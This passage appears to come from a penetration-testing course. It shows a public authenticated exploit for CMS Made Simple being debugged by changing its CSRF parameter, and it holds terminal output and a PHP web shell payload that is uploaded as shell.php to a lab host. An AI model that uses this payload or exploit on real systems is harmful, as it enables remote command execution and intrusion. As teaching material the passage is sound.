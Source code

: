 The exploit now displays the full string before the split method is invoked:
```
kali@kali:~$ python2 44976_modified.py
/usr/lib/python2.7/dist-packages/urllib3/connectionpool.py:849: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning)
[+] Authenticated successfully with the supplied credentials
[+] String that is being split:
https://10.11.0.128/admin?_sk_=f2946ad9afceb247864
Traceback (most recent call last):
  File "44976_modified.py", line 104, in <module>
    run()
  File "44976_modified.py", line 95, in run
    cookies,csrf_token = authenticate()
  File "44976_modified.py", line 39, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_modified.py", line 25, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```

While the exploit code expected the input string to contain "`__c`" (defined in the _csrf_param_ variable) as shown in Listing 35, we received "`_sk_`" from the web application.
+ At this point, we do not fully understand why this is happening. Perhaps there is a version mismatch between the exploit developer's software and ours, or a CMS configuration mismatch. In any case, we know that exploit development is never straightforward

Next, let's try to change the _csrf_param_ variable to match the CMS response and find out if the exploit works:
``` python
csrf_param = "_sk_"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"
```

Now, we'll execute the modified exploit:
```
kali@kali:~$ python2 44976_modified.py
/usr/lib/python2.7/dist-packages/urllib3/connectionpool.py:849: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning)
[+] Authenticated successfully with the supplied credentials
[+] String that is being split: https://192.168.50.45/admin?_sk_=bdc51a781fe6edcc126
[*] Attempting to upload cmsmsrce.txt...
...
[+] Successfully uploaded cmsmsrce.txt
[*] Attempting to copy cmsmsrce.txt to shell.php...
...
[+] File copied successfully
[+] Exploit succeeded, shell can be found at: https://192.168.50.45/uploads/shell.php
```

